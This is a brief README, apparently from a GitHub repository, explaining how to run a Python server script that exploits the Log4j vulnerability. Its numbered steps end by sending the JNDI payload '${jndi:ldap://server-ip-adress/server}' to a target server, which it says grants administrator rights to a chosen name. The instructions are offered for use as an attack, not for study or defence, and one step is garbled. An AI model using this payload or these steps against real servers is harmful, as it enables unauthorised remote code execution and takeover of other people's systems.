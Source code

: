 How to use?

1) Install python
2) Move script to a folder
3) Open cmd and enter the folder you are in.
4) Run the script using the py server.py command
5) Make sure your ports are open
6) Class server is open, now let's read the code to the server with the help of an open
7) We will exploit the LOG4J Vulnerability, Send command to server with ${jndi:ldap://server-ip-adress/server}
8) And the command has been successfully run by the server. The specified name has been made an administrator on the server.